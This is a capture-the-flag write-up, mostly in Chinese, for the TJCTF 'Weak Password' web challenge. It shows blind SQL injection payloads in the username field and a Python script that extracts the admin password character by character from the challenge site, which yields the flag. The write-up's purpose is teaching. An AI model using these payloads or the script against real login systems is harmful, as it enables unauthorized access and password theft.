 # Weak Password

Web, 50 Points

Auther: **saisree**

Writeup By: **yctseng1227**

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

![](./01.png)

## Solution

標題同樣為**Weak Password**，T貓盃只有`admin`:`admin`，這裡反而沒有這麼簡單XD

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)，當然也可以從網頁把`password`每個字元慢慢猜出來，但身為未來工程屍... 還是寫個Code吧 : )

![](./02.png)

How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。

![](./03.png)
![](./04.png)

例如，猜`password`長度：
`admin' and length(password) > 13 -- ` --> success
`admin' and length(password) > 14 -- ` --> fail
`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。

又例如，猜`password`每個字元：
`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success
`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail
`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

再來就是寫Code了，可以搭配**Binary search**加速搜尋速度~
然後用回傳的request長度判斷結果是否成功。

```python=
import requests
import string

def inject(n, opr, char):
    url = 'https://weak_password.tjctf.org/login'
    payload = {"username": "admin' and unicode(substr(password, {})) {} unicode('{}')-- ".format(n, opr,char), "password": "123"}
    r = requests.post(url, data=payload)
    return True if len(r.text)==1842 else False #1842:success


res = ""
li = list(string.digits + string.ascii_lowercase)
for i in range(1, 20):

	l = 0
    r = len(li) - 1

	# end up binary search if it can't checkout any character
    if inject(i, '>', li[0]) == False:
        print('password: '+res)
        break

    while l <= r:
        mid = (l +(r+1)) // 2
        #print(l, r, mid)
        if inject(i, '=', li[mid]):
            res = res + li[mid]
            break
        elif inject(i, '>', li[mid]):
            l = mid
        elif inject(i, '<', li[mid]):
            r = mid
        else:
            break
    print(res)
```

### Result

![](./05.png)

> tjctf{blindsqli14519}
